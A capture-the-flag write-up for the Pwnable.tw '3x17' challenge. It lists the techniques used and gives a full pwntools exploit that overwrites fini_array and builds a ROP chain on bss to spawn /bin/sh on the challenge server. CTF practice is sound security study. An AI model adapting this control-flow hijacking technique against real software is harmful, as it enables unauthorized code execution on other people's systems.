 # Pwnable.tw - 3x17

* Website : Pwnable.tw
* Challenge : 3x17
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x00
1. **libc_csu_init**
2. **libc_csu_fini**
3. **init_array**
4. **fini_array**
5. **ROP on bss**

## 0x01
Exploit:
```python
from pwn import *

#r = process('./3x17')
r = remote('chall.pwnable.tw', 10105)

def addr(addr):
    r.recvuntil(":")
    r.send(addr)

def data(data):
    r.recvuntil(":")
    r.send(data)

def main():
    fini_array = 0x4b40f0
    libc_csu_fini = 0x402960
    main = 0x401b6d
    pop_rdi_ret = 0x401696
    pop_rsi_ret = 0x406c30
    pop_rdx_ret = 0x446e35
    pop_rax_ret = 0x41e4af
    syscall = 0x471db5
    leave_ret = 0x401c4b
    push_rsi = 0x460c1c
    segment = 0x4b4100
    #first time hijack RIP
    addr(str(fini_array))
    data(p64(libc_csu_fini)+p64(main))
    #second time set ROP
    addr(str(0x4b4000))
    data(("/bin/sh\0"))
    addr(str(segment))
    data(p64(pop_rdi_ret))
    addr(str(segment+8))
    data(p64(0x4b4000))
    addr(str(segment+16))
    data(p64(pop_rsi_ret))
    addr(str(segment+24))
    data(str("\0"))
    addr(str(segment+32))
    data(p64(pop_rdx_ret))
    addr(str(segment+40))
    data(str("\0"))
    addr(str(segment+48))
    data(p64(pop_rax_ret))
    addr(str(segment+56))
    data(p64(0x3b))
    addr(str(segment+64))
    data(p64(syscall))
    #back to bss
    addr(str(fini_array))
    data(p64(leave_ret)+p64(main))
    r.interactive()

if __name__ == '__main__':
    main()
```
